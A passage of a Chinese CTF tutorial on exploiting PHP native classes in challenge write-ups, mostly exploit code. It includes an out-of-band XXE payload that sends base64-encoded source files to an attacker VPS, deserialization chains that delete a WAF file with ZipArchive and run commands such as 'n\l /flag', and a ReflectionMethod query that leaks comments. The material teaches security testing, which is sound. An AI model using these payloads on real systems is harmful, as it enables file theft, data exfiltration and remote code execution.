```

之后访问 flag.txt 即可

# SimpleXMLElement：XXE

[PHP: SimpleXMLElement - Manual](https://www.php.net/manual/zh/class.simplexmlelement)

能够利用 SimpleXMLElement 类进行 XXE 主要是因为调用 SimpleXMLElement::\_\_construct 可以远程控制 xml 文件

[PHP: SimpleXMLElement::\_\_construct - Manual](https://www.php.net/manual/zh/simplexmlelement.construct.php)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121128-73f345cc-d138-1.png)

可以看到，如果我们第三个参数**dataIsURL**设置为 true，就可以远程调用 xml 文件，实现 XXE 攻击

-   第一个参数 data，就是我们自己设置 payload 的 url 地址
-   第二个参数 options，一般设置为**2**
-   第三个参数**dataIsURL**，设置为 true

### 例题

\[SUCTF 2018\]Homework

一进入靶机是一个登录界面，随便注册一个账号登录即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121135-78083884-d138-1.png)

发现有 2 个界面一个是调用 calc 进行计算，另一个是一个文件上传，猜测 calc 界面是用来获取源码或者 hint 的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121139-7a70bb5a-d138-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121143-7cf0d748-d138-1.png)

发现这个计算器是由于 module 调用了 calc 类，从而实现计算器的功能的

而且参数是可控的，而且有 3 个参数可以控制，可以利用 SimpleXMLElement 进行 XXE 攻击调取源码

在 VPS 上构造：

evil.xml

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE try[
<!ENTITY % int SYSTEM "http://VPS/test/send.xml">
%int;
%all;
%send;
]>
```

send.xml

```plain
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://VPS/?%payl;'>">
```

从日志看

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121153-826c58aa-d138-1.png)

之后打 SQL 注入，就不再这里过多陈述

# ZipArchive:删除文件

[PHP: ZipArchive - Manual](https://www.php.net/manual/zh/class.ziparchive)

用 Zip 压缩的文件归档。

-   php 5.20

常用类方法

```plain
ZipArchive::addEmptyDir：添加一个新的文件目录
ZipArchive::addFile：将文件添加到指定 zip 压缩包中
ZipArchive::addFromString：添加新的文件同时将内容添加进去
ZipArchive::close：关闭 ziparchive
ZipArchive::extractTo：将压缩包解压
ZipArchive::open：打开一个 zip 压缩包
ZipArchive::deleteIndex：删除压缩包中的某一个文件，如：deleteIndex(0) 代表删除第一个文件
ZipArchive::deleteName：删除压缩包中的某一个文件名称，同时也将文件删除
```

主要利用的是**ZipArchive::open**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121200-86c3fb38-d138-1.png)

主要是第二个参数 flags 选用的模式

```plain
ZipArchive::OVERWRITE：总是以一个新的压缩包开始，此模式下如果已经存在则会被覆盖或删除。
ZipArchive::CREATE：如果不存在则创建一个 zip 压缩包。
ZipArchive::RDONLY：只读模式打开压缩包。
ZipArchive::EXCL：如果压缩包已经存在，则出错。
ZipArchive::CHECKCONS：对压缩包执行额外的一致性检查，如果失败则显示错误。
注意，如果设置 flags 参数的值为 ZipArchive::OVERWRITE 的话，可以把指定文件删除。这里我们跟进方法可以看到 const OVERWRITE = 8，也就是将 OVERWRITE 定义为了常量 8，我们在调用时也可以直接将 flags 赋值为 8
```

所以我们可以设置 flags 为 overwrite 模式或者赋值为 8 进行文件删除，从而绕过一些限制

### 例题

```plain
<?php
highlight_file(__FILE__);
error_reporting(0);
include('shell.php');
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;

    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }

    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){   //admin
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}
class login{
    public $file;
    public $filename;
    public $content;

    public function __construct($file,$filename,$content)
    {
        $this->file=$file;
        $this->filename=$filename;
        $this->content=$content;
    }
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            $this->file->open($this->filename,$this->content);
            die('login success you can to open shell file!');
        }
    }
}
class register{
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            die('success register admin');
        }else{
            die('please register admin ');
        }
    }
}
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){   
            shell($content);
        }else{
            echo file_get_contents($filename.".php");   
        }
    }
}
if($_GET['a']!==$_GET['b']&&(md5($_GET['a']) === md5($_GET['b'])) && (sha1($_GET['a'])=== sha1($_GET['b']))){
    @unserialize(base64_decode($_POST['unser']));
```

可以发现是存在一个 shell.php 的，我们构造链子读一下

```plain
<?php
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;

    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }

    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){   //admin
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}
class login{
    public $file;
    public $filename;
    public $content;

    public function __construct($file,$filename,$content)
    {
        $this->file=$file;
        $this->filename=$filename;
        $this->content=$content;
    }
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            $this->file->open($this->filename,$this->content);
            die('login success you can to open shell file!');
        }
    }
}
class register{
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            die('success register admin');
        }else{
            die('please register admin ');
        }
    }
}
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){
            shell($content);
        }else{
            echo file_get_contents($filename.".php");
        }
    }
}
$a=new Game();
$a->username='admin';
$a->password='admin';
$a->register='admin';
$a->file=new Open();
$a->filename='php://filter/read=convert.base64-encode/resource=shell';
$a->content='a';
echo base64_encode(serialize($a));
```

得到 shell.php

```plain
<?php
function shell($cmd){
    if(strlen($cmd)<10){
        if(preg_match('/cat|tac|more|less|head|tail|nl|tail|sort|od|base|awk|cut|grep|uniq|string|sed|rev|zip|\*|\?/',$cmd)){
            die("NO");
        }else{
            return system($cmd);
        }
    }else{
        die('so long!');
    }
}
```

其实绕过还是比较好绕过的，但是在源码中

```plain
if(!file_get_contents('waf.txt')){
            shell($content);
```

只有 waf.txt 不存在的时候才可以进行命令执行，所以我们需要删除这个 waf.txt，利用 PHP 内置类**ZipArchive**

```plain
<?php
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;

    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }

    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){   //admin
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}
class login{
    public $file;
    public $filename;
    public $content;

    public function __construct($file,$filename,$content)
    {
        $this->file=$file;
        $this->filename=$filename;
        $this->content=$content;
    }
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            $this->file->open($this->filename,$this->content);
            die('login success you can to open shell file!');
        }
    }
}
class register{
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            die('success register admin');
        }else{
            die('please register admin ');
        }
    }
}
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){
            shell($content);
        }else{
            echo file_get_contents($filename.".php");
        }
    }
}
$a=new Game();
$a->username='admin';
$a->password='admin';
$a->register='admin';
$a->file=new ZipArchive();
$a->filename='waf.txt';
$a->content=8;//或者 ZipArchive::OVERWRITE
echo base64_encode(serialize($a));
```

之后构造链子绕过正则即可得到 flag

```plain
<?php
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;

    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }

    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){   //admin
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}
class login{
    public $file;
    public $filename;
    public $content;

    public function __construct($file,$filename,$content)
    {
        $this->file=$file;
        $this->filename=$filename;
        $this->content=$content;
    }
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            $this->file->open($this->filename,$this->content);
            die('login success you can to open shell file!');
        }
    }
}
class register{
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            die('success register admin');
        }else{
            die('please register admin ');
        }
    }
}
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){
            shell($content);
        }else{
            echo file_get_contents($filename.".php");
        }
    }
}
$a=new Game();
$a->username='admin';
$a->password='admin';
$a->register='admin';
$a->file=new Open();
$a->filename='a';
$a->content='n\l /flag';
echo base64_encode(serialize($a));
```

# ReflectionMethod:获取类方法的相关信息

[PHP: ReflectionMethod - Manual](https://www.php.net/manual/zh/class.reflectionmethod)

**ReflectionMethod** 类报告了一个方法的有关信息。可以在 PHP 运行状态中，扩展分析 PHP 程序，导出或提取出关于类、方法、属性、参数等的详细信息，包括注释。这种动态获取的信息以及动态调用对象的方法的功能称为反射 API

类摘要

```plain
class ReflectionMethod extends ReflectionFunctionAbstract {
/* 常量 */
public const int IS_STATIC;
public const int IS_PUBLIC;
public const int IS_PROTECTED;
public const int IS_PRIVATE;
public const int IS_ABSTRACT;
public const int IS_FINAL;
/* 属性 */
public string $class;
/* 继承的属性 */
public string $name;
/* 方法 */
public __construct(object|string $objectOrMethod, string $method)
public __construct(string $classMethod)
public static createFromMethodName(string $method): static
public static export(string $class, string $name, bool $return = false): string
public getClosure(?object $object = null): Closure
public getDeclaringClass(): ReflectionClass
public getModifiers(): int
public getPrototype(): ReflectionMethod
public hasPrototype(): bool
public invoke(?object $object, mixed ...$args): mixed
public invokeArgs(?object $object, array $args): mixed
public isAbstract(): bool
public isConstructor(): bool
public isDestructor(): bool
public isFinal(): bool
public isPrivate(): bool
public isProtected(): bool
public isPublic(): bool
public setAccessible(bool $accessible): void
public __toString(): string
/* 继承的方法 */
private ReflectionFunctionAbstract::__clone(): void
public ReflectionFunctionAbstract::getAttributes(?string $name = null, int $flags = 0): array
public ReflectionFunctionAbstract::getClosureScopeClass(): ?ReflectionClass
public ReflectionFunctionAbstract::getClosureThis(): ?object
public ReflectionFunctionAbstract::getClosureUsedVariables(): array
public ReflectionFunctionAbstract::getDocComment(): string|false
public ReflectionFunctionAbstract::getEndLine(): int|false
public ReflectionFunctionAbstract::getExtension(): ?ReflectionExtension
public ReflectionFunctionAbstract::getExtensionName(): string|false
public ReflectionFunctionAbstract::getFileName(): string|false
public ReflectionFunctionAbstract::getName(): string
public ReflectionFunctionAbstract::getNamespaceName(): string
public ReflectionFunctionAbstract::getNumberOfParameters(): int
public ReflectionFunctionAbstract::getNumberOfRequiredParameters(): int
public ReflectionFunctionAbstract::getParameters(): array
public ReflectionFunctionAbstract::getReturnType(): ?ReflectionType
public ReflectionFunctionAbstract::getShortName(): string
public ReflectionFunctionAbstract::getStartLine(): int|false
public ReflectionFunctionAbstract::getStaticVariables(): array
public ReflectionFunctionAbstract::getTentativeReturnType(): ?ReflectionType
public ReflectionFunctionAbstract::hasReturnType(): bool
public ReflectionFunctionAbstract::hasTentativeReturnType(): bool
public ReflectionFunctionAbstract::inNamespace(): bool
public ReflectionFunctionAbstract::isClosure(): bool
public ReflectionFunctionAbstract::isDeprecated(): bool
public ReflectionFunctionAbstract::isGenerator(): bool
public ReflectionFunctionAbstract::isInternal(): bool
public ReflectionFunctionAbstract::isStatic(): bool
public ReflectionFunctionAbstract::isUserDefined(): bool
public ReflectionFunctionAbstract::isVariadic(): bool
public ReflectionFunctionAbstract::returnsReference(): bool
abstract public ReflectionFunctionAbstract::__toString(): void
}
```

这个考的不是很多，主要是考他继承的方法

```plain
ReflectionFunctionAbstract::getDocComment()
//获取类中各个函数注释内容
```

示例

```plain
<?php
class Flag{
    /**
     * flag{test}
     */
    public function givemeflag(){
        return 123;
    }
}
$a=new ReflectionMethod('Flag','givemeflag');
echo $a->getDocComment();
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240222121223-948965a0-d138-1.png)

### 例题

**\[2021 CISCN\]easy\_source**

```plain
<?php
class User
{
    private static $c = 0;

    function a()
    {
        return ++self::$c;
    }

    function b()
    {
        return ++self::$c;
    }

    function c()
    {
        return ++self::$c;
    }

    function d()
    {
        return ++self::$c;
    }

    function e()
    {
        return ++self::$c;
    }

    function f()
    {
        return ++self::$c;
    }

    function g()
    {
        return ++self::$c;
    }

    function h()
    {
        return ++self::$c;
    }

    function i()
    {
        return ++self::$c;
    }

    function j()
    {
        return ++self::$c;
    }

    function k()
    {
        return ++self::$c;
    }

    function l()
    {
        return ++self::$c;
    }

    function m()
    {
        return ++self::$c;
    }

    function n()
    {
        return ++self::$c;
    }

    function o()
    {
        return ++self::$c;
    }

    function p()
    {
        return ++self::$c;
    }

    function q()
    {
        return ++self::$c;
    }

    function r()
    {
        return ++self::$c;
    }

    function s()
    {
        return ++self::$c;
    }

    function t()
    {
        return ++self::$c;
    }

}

$rc=$_GET["rc"];   
$rb=$_GET["rb"];    
$ra=$_GET["ra"];    
$rd=$_GET["rd"];   
$method= new $rc($ra, $rb);   
var_dump($method->$rd());
```

关键是

```plain
$method= new $rc($ra, $rb);   
var_dump($method->$rd());
```

其实可以打 FilesystemIterator+SplFileObject，但是由于题目描述以及题目名字的提示，flag 在注释里，可以利用 ReflectionMethod

```plain
?rc=ReflectionMethod&ra=User&rb=a&rd=getDocComment
```

# 参考

[php 原生类的总结\_php 原生类-CSDN 博客](https://blog.csdn.net/unexpectedthing/article/details/121780909)

[『CTF Tricks』PHP-绕过 open\_basedir\_directoryiterator php ctf-CSDN 博客](https://blog.csdn.net/Xxy605/article/details/120221577)
